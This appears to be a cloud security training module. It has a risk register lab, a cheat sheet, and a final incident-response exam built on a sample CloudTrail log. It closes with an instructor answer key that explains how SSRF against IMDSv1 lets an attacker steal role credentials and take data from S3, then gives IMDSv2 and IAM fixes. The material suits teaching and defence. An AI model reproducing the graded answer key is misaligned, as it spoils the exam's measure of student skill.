

---

### 🔧 HANDS-ON LAB: Building a Cloud Risk Register

#### Objective
Develop a formal Cloud Risk Register mapping vulnerabilities, likelihood, impact, and countermeasures using the CSA Cloud Controls Matrix (CCM) framework.



#### Risk Assessment Matrix Reference

| Severity | Low Impact | Medium Impact | High Impact |
| :--- | :--- | :--- | :--- |
| **High Likelihood** | Medium Risk | High Risk | Critical Risk |
| **Medium Likelihood**| Low Risk | Medium Risk | High Risk |
| **Low Likelihood** | Low Risk | Low Risk | Medium Risk |

#### Cloud Risk Register Worksheet

Below is the structured Risk Register for cloud infrastructures. Create this register in your workspace:

```text
+---------+-------------------+----------------------------+-----------------------+------------+--------+-------------+-----------------------------+-------------------------------+
| Risk ID | Asset             | Threat Scenario            | Vulnerability         | Likelihood | Impact | Risk Rating | Existing Controls           | Recommended Controls          |
+---------+-------------------+----------------------------+-----------------------+------------+--------+-------------+-----------------------------+-------------------------------+
| CR-01   | S3 Backups        | Attacker exfiltrates data  | Public Read Access    | High       | High   | Critical    | None                        | Enforce AWS S3 Block Public   |
|         |                   | via automated scanner.     | Allowed on Bucket.    |            |        |             |                             | Access Policies.              |
+---------+-------------------+----------------------------+-----------------------+------------+--------+-------------+-----------------------------+-------------------------------+
| CR-02   | EC2 Web Server    | Rogue user logs in via     | No Multi-Factor       | Medium     | High   | High        | Complex Password            | Enforce Mandatory MFA on IAM  |
|         | Console           | compromised password.      | Authentication (MFA). |            |        |             | policy.                     | and SSO configurations.       |
+---------+-------------------+----------------------------+-----------------------+------------+--------+-------------+-----------------------------+-------------------------------+
| CR-03   | Database Instance | Attacker pivots internally | Security Group allows | Medium     | High   | High        | Password Access             | Restrict security group port  |
|         |                   | from a compromised web node| Port 3306 globally.   |            |        |             |                             | access only to Web VM IP.     |
+---------+-------------------+----------------------------+-----------------------+------------+--------+-------------+-----------------------------+-------------------------------+
```

---

## Unit 2.8: Summary & Quick-Reference Cheat Sheet

* **Threats & Countermeasures**: Cloud vulnerabilities are driven by misconfigurations and exposed APIs. Cloud Security Posture Management (CSPM) and least-privilege identity access are key mitigations.
* **Cloud Attack Paths**: Attacks focus on credential harvesting, privilege escalation (abusing policies), and resource abuse (cryptojacking).
* **Service Hijacking**: Attacks target credential stores and session tokens using push fatigue. Phishing-resistant MFA (FIDO2) is the primary countermeasure.
* **Session Hijacking**: Exploit mechanisms include XSS and proxy phishing. Mitigation requires secure cookie parameters (HttpOnly, Secure) and short token lifespans.
* **DoS/DDoS**: Volumetric and protocol-layer attacks exhaust bandwidth and state queues. Cloud-native Web Application Firewalls (WAF) and scrubbing proxies are required to mitigate these attacks at scale.
* **Risk & Governance**: Risks are measured by Likelihood $\times$ Impact. Frameworks like NIST SP 800-144 and the CSA Cloud Controls Matrix (CCM) help audit and secure multi-tenant cloud architectures.

---

## Unit 2.9: Final Practical Exam & Instructor Grading Rubric

### Student Practical Assignment Instructions
A corporate web application environment hosted on AWS was compromised. Students are acting as Incident Response Analysts. 
1. **Analyze** the log extract.
2. **Determine** the threat vector and path of compromise.
3. **Assess** the severity using the Likelihood $\times$ Impact framework.
4. **Draft** the technical remediation policy.

---

### Incident Log Extract (AWS CloudTrail Format)
```json
{
  "Records": [
    {
      "eventTime": "2026-07-20T02:00:00Z",
      "eventName": "DescribeInstances",
      "sourceIPAddress": "192.168.1.10",
      "userIdentity": {"type": "AssumedRole", "sessionContext": {"sessionIssuer": {"userName": "Web-Server-Execution-Role"}}}
    },
    {
      "eventTime": "2026-07-20T02:05:00Z",
      "eventName": "ListBuckets",
      "sourceIPAddress": "203.0.113.5",
      "userIdentity": {"type": "AssumedRole", "sessionContext": {"sessionIssuer": {"userName": "Web-Server-Execution-Role"}}}
    },
    {
      "eventTime": "2026-07-20T02:06:00Z",
      "eventName": "GetObject",
      "requestParameters": {"bucketName": "corp-financial-backups", "key": "q2_report.xlsx"},
      "sourceIPAddress": "203.0.113.5",
      "userIdentity": {"type": "AssumedRole", "sessionContext": {"sessionIssuer": {"userName": "Web-Server-Execution-Role"}}}
    }
  ]
}
```

---

### Student Worksheet Questions

1. **Compromise Analysis**:
   Explain the anomaly in the CloudTrail logs. What indicates that the `Web-Server-Execution-Role` was hijacked, and what was the likely initial exploit vector?
2. **Threat Mapping**:
   Map the compromise path to the CSA Egregious Eleven threat classification categories.
3. **Risk Score**:
   Determine the Likelihood, Impact, and overall Risk Rating of this incident. Provide a business rationale.
4. **Technical Mitigation**:
   Write the policy changes needed to prevent this path of compromise in the future.

---

### Instructor Answer Key & Grading Rubric

#### Question 1: Compromise Analysis [30 Points]
* **Answer**:  
  The compromise is indicated by a change in IP address. At `02:00:00Z`, the `Web-Server-Execution-Role` is used by internal IP `192.168.1.10` (the actual EC2 web server instance) to list instances. Five minutes later, at `02:05:00Z`, the same execution role is used from external IP `203.0.113.5` to list S3 buckets and exfiltrate a financial report (`q2_report.xlsx`).
  This indicates **credential theft**. The initial exploit vector was likely a **Server-Side Request Forgery (SSRF)** vulnerability on the web application. The attacker exploited the application to request credentials from the EC2 Instance Metadata Service (IMDS) and used those credentials externally.

#### Question 2: Threat Mapping [20 Points]
* **Answer**:  
  This attack maps to the following CSA categories:
  * **Threat #1: Misconfiguration**: The EC2 instance was assigned a role with broad access permissions to S3 buckets that it did not require for its core web serving function (violation of least privilege).
  * **Threat #2: Insecure APIs**: The instance was running IMDSv1, which allowed unauthenticated metadata retrieval via a single HTTP GET request, enabling SSRF-based credential harvesting.
  * **Threat #7: Data Breaches**: Sensitive corporate financial data was exfiltrated from the `corp-financial-backups` S3 bucket.

#### Question 3: Risk Score [20 Points]
* **Answer**:  
  * **Likelihood**: **High**. Web applications are publicly exposed, and SSRF is a common web application vulnerability. If IMDSv1 is active, exploitation is straightforward.
  * **Impact**: **High**. The exfiltration of financial reports represents a loss of confidentiality, carrying compliance penalties (e.g., GDPR, SEC rules) and reputational damage.
  * **Risk Rating**: **Critical** (High Likelihood $\times$ High Impact).

#### Question 4: Technical Mitigation [30 Points]
* **Answer**:  
  To mitigate this, the following changes must be implemented:
  1. **Enforce AWS IMDSv2**: Require a session-oriented token request. This blocks SSRF attacks because the attacker cannot retrieve the session token over a simple GET redirection.
     ```bash
     # CLI command to enforce IMDSv2
     aws ec2 modify-instance-metadata-options --instance-id i-xxxxxx --http-tokens required --http-endpoint enabled
     ```
  2. **Restrict S3 IAM Policy**: Modify the `Web-Server-Execution-Role` IAM policy to use the Principle of Least Privilege, removing access to the `corp-financial-backups` bucket.
     ```json
     {
       "Version": "2012-10-17",
       "Statement": [
         {
           "Effect": "Deny",
           "Action": "s3:*",
           "Resource": [
             "arn:aws:s3:::corp-financial-backups",
             "arn:aws:s3:::corp-financial-backups/*"
           ]
         }
       ]
     }
     ```
